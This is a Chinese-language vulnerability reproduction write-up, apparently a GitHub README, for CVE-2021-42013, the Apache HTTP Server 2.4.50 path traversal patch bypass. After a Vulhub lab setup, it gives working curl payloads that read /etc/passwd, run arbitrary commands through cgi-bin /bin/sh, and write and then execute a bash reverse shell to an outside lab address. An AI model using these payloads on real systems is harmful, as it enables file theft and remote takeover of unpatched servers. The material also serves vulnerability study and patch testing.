

# CVE-2021-42013

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache HTTP Server 2.4.50 路径穿越漏洞

## 0x01 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

## 0x02 影响范围

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

## 0x03 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 0x04 漏洞复现



使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://192.168.111.196:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：


在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```


写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.111.155/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

